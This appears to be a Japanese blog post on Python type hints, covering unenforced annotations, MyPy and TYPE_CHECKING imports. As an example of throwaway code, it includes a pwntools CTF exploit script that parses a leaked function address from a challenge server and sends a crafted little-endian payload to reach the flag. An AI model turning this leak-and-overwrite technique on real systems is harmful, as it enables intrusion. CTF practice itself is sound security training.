 ```yaml
---
title: "Pythonの型ヒントの話"
description: "hydrogen Advent Calender 2024 day 2"
post: "2024-12-02T13:21"
# update: "2024-11-19T16:00"
tags: ["hydrogen Advent Calender 2024","Python"]
draft: true
---
```


この記事は[hydrogen Advent Calender 2024](https://adventar.org/calendars/10672)の2日目の記事です。

## 本題

### Pythonと型

Pythonでは簡単なプログラムを書く程度なら型というものをあまり意識しなくてもいいように設計されている。

```py
import re
from pwn import *

# サーバーに接続
io = remote('pwnctf.example.com', 9000)
result = io.recvuntil('1: ')

match = re.search(r'show_flag = (.+)', result.decode())
show_flag_address = match.group(1).strip()
print(show_flag_address)

show_flag_address = int(show_flag_address, 16) + 0x08

little = show_flag_address.to_bytes((show_flag_address.bit_length() + 7) // 8, byteorder='little')
# ペイロードを構築
payload = little + b" a"

io.sendline("a")
io.recvuntil(': ')
io.sendline("1")
io.recvuntil(': ')
io.sendline("1")

io.recvuntil('2: ')
io.sendline("b")
io.recvuntil(': ')
io.sendline("2")
io.recvuntil(': ')
io.sendline("2")

io.recvuntil('3: ')
io.sendline("c")
io.recvuntil(': ')
io.sendline("3")
io.recvuntil(': ')
io.sendline("3")

io.recvuntil('4: ')
io.sendline(payload)
io.recvuntil(': ')
io.sendline("+")
io.recvuntil(': ')
io.sendline("+")

print(io.recvall(timeout=10))
```

それゆえに、こういったCTFのpwnableで使うような書き捨てのコードなどを記述するのに向いた言語であるといえる。だが同時に、少しコードの規模が大きくなるとこの点が問題になってくる。

### 型ヒント

Pythonは次のような文法で関数や変数に型ヒントをつけることができる。

```py
#定数・変数
SAMPLE: int = 3

#関数
def some_process(some_arg: int, some_str: str) -> list[int]:
    pass
```

ただ、これはあくまでも型「ヒント」でしかなく実行時にこの型になることを強制するものではない。

そのため、例えば上の関数の`some_str`に`int`型の値を渡しても警告の一つすら出さずにそのまま動作するのである。謂わば、この型ヒントはコメントに近しいものである。

加えて言うと、この型ヒントは型である必要がないのである。そのため次のような書き方も文法上可能となる。

```py
HOGE: 3 = "HOGE"
FUGA: some_process = 4
PIYO: b"Mixed Martial Arts" = "UECMMA"
```

もはややりたい放題である。ただ、関数の呼び出しや演算などは書くことができないため、副作用のある型ヒントを書くのは極めて困難である。

この~~突っ込みどころしかない~~型ヒント機能を用いて静的型検査を行うツールとしてMyPyなどが存在する。

### 型解析ツールと面倒な仕様

実務においてはMyPyを用いて静的型検査を行うことが多いが、その際にもPythonの面倒な仕様が首をもたげる。

Pythonでは循環するimportができないのである。これ自体はある意味自然な仕様ではあるのだが、型をimportすることもできないのである。
そのため、型解析の際にのみtrueになるような定数を用いて条件分岐でimportすることで対処するのである。その際に、直接型ヒントを書くことができないため次のように記述する必要がある。

```py
from typing import TYPE_CHECKING

if TYPE_CHECKING:
    from hoge import Hoge

def fuga(hoge: 'Hoge') -> None:
    pass

def piyo(hoge: 'list[Hoge]') -> int:
    pass
```

型ヒントを文字列で書くことで、importを回避することができるのである。
